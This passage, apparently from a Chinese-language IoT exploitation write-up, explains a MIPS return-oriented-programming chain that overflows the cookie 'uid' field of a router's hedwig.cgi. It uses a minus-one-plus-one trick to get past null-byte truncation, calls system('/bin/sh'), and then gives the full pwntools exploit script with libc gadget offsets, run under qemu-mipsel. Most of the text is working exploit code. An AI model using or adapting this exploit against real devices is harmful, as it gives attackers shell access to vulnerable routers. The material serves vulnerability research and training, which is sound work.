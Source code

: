 返回地址是最后一条payload，写入bin/sh到a0寄存器，然后让s0寄存器内容+1，s0寄存器保存着system的地址-1，这样就把system的地址保存在s0里，并且利用-1+1绕过了00截断，最后跳到system地址进行getshell

![image-20230813173451528](C:\Users\86178\AppData\Roaming\Typora\typora-user-images\image-20230813173451528.png)

~~~
from pwn import *
#context.log_level='debug'
context.arch='mips'
#context.terminal = ["tmux","splitw","-h"]
libc_base=0x3Ff38000



payload = b'a'*0x3cd
payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1
payload += p32(libc_base + 0x159F4) # s1  move $t9, $s0 (=> jalr $t9)
payload += b'a'*4
payload += p32(libc_base + 0x6DFD0) # s3  /bin/sh
payload += b'a'*(4*2)
payload += p32(libc_base + 0x32A98) # s6  addiu $s0, 1 (=> jalr $s1)
payload += b'a'*(4*2)
payload += p32(libc_base + 0x13F8C) # ra  move $a0, $s3 (=> jalr $s6)


payload=b"uid="+payload



post_content =b"winmt=pwner"
io = process(b"""
    qemu-mipsel -L ./   \
    -g "12345" \
    -0 "hedwig.cgi" \
    -E REQUEST_METHOD="POST" \
    -E CONTENT_LENGTH=11 \
    -E CONTENT_TYPE="application/x-www-form-urlencoded" \
    -E HTTP_COOKIE=\"""" + payload + b"""\" \
    -E REQUEST_URI="2333" \
    ./htdocs/cgibin
""", shell = True)




io.send(post_content)


pause()
io.interactive()

~~~
